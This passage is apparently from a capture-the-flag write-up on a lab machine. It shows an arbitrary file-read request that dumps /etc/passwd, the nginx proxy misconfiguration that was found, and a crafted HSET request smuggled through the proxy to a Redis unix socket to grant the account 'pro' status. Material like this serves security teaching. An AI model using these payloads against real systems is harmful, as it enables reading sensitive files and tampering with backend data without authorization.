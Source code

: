 This statement uses the `id` post parameter to open a file(any file), and writes it to the `html` variable. Neet so let's check if it works. I wrote the following request to burp:

```

POST /edit/index.php HTTP/1.1
Host: fady.microblog.htb

id=/etc/passwd&txt=sdfsd

```
and it worked! 

```

root:x:0:0:root:/root:/bin/bash
cooper:x:1000:1000::/home/cooper:/bin/bash
git:x:104:111:Git Version Control,,,:/home/git:/bin/bash

```

But finding passwd didn't help me with a lot, at least I know the web app is running on nginx servers to let me check for those.

After a little bit of payloads and not a lot of success I searched for Nginx misconfigurations, and found something interesting about, the following file: `/etc/nginx/site-enabled/default`

In the file we can see the following:

```

location ~ /static/(.*)/(.*) {
	resolver 127.0.0.1;
	proxy_pass http://$1.microbucket.htb/$2;
}

```

If you read a little bit about nginx misconfiguration you can find a vulnerability in this type of regex. You can read this article for more information: https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/

#### Getting Pro

```

HSET /static/unix:/var/run/redis/redis.sock:0xfade%20pro%20%22true%22%20/health.txt HTTP/1.1
Host: microblog.htb
User-Agent: curl/7.88.1
Accept: */*
Connection: close

```

By running the following payload you'll succeed. Here is the breakdown:

1. HSET 
The first part of data sent to the socket is HSET, it's a command in redis for setting the values of diffrent fields.
2. /static/unix:/var/run/redis/redis.sock
We can control the redis server because of the allowing of a unix socket path. So we specify the redis socket.
3. 0xfade%20pro%20%22true%22%20 
Inside the server we set the field `pro` to `true` for the username `0xfade`(which is my username).
